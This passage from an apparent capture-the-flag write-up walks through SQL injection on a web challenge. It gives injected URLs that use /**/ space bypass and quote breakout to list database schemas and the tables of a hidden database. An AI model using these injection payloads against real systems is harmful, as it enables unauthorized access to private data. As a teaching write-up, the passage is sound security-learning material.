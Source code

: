 We can confirm that we can see the database name `vt_scanned_ips_db`.

So, we will be replacing the `database()` by another SELECT query to get all the database names so we can guess where is the flag: `select group_concat(distinct table_schema) from information_schema.tables`

`http://104.43.165.137/?id=3%27,(select/**/group_concat(distinct/**/TABLE_SCHEMA)/**/from/**/information_schema.tables),%27%27),(28,%271`

And this is the result:

<p align="center">
<img src="resources/web-1000-empire_total/13.PNG"/>
</p>

So, there is a secret database `MySecretDatabase`.

Getting its tables: `select group_concat(table_name) from information_schema.tables where table_schema='MySecretDatabase'`

`http://104.43.165.137/?id=4',(select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema='MySecretDatabase'),''),(28,'1`

<p align="center">
<img src="resources/web-1000-empire_total/14.PNG"/>
</p>

